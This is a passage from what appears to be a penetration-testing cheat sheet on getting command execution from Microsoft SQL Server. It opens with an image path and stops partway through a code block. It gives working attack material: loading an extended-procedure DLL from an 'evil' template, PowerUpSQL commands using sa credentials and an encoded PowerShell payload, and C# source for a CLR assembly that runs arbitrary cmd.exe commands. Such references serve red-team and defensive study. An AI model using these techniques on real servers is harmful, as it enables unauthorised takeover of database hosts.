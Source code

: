* Build a DLL using [xp_evil_template.cpp](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/xp_evil_template.cpp)
* Load the DLL
	```sql
	-- can also be loaded from UNC path or Webdav
	sp_addextendedproc 'xp_calc', 'C:\mydll\xp_calc.dll'
	EXEC xp_calc
	sp_dropextendedproc 'xp_calc'
	```

## CLR Assemblies

Prerequisites:
* sysadmin privileges
* CREATE ASSEMBLY permission (or)
* ALTER ASSEMBLY permission (or)

### Execute commands using CLR assembly

```ps1
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
or
Invoke-SQLOSCmdCLR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64>" -Verbose
```

### Manually creating a CLR DLL and importing it

Create a C# DLL file with the following content, with the command : `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library c:\temp\cmd_exec.cs`

```csharp
using System;
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;

public partial class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmd_exec (SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        // Create the record and specify the metadata for the columns.
        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
        
        // Mark the beginning of the result set.
        SqlContext.Pipe.SendResultsStart(record);

        // Set values for each column in the row
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());

        // Send the row back to the client.
```